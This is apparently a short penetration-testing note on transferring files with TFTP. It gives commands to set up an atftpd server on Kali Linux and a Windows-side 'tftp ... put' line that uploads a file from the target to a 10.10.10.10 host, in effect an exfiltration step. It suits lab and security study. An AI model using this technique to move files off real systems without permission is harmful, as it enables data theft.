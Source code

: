 # TFTP

## Overview

* works from older Windows operating systems up to Windows XP and 2003
* not viable in anything newer due to TFTP not coming installed by default

## How To

```bash
# Setup TFTP on Kali Linux
sudo apt update && sudo apt install atftp

# Decide where you want to keep the TFTP files
sudo mkdir /tftp

# Update ownership
sudo chown nobody: /tftp

# Start the service as a daemon on port 69
sudo atftpd --daemon --port 69 /tftp

# Now on the Window's machine
# -i : binary image transfer
# put : upload a file
tftp -i 10.10.10.10 put file2upload.txt
```

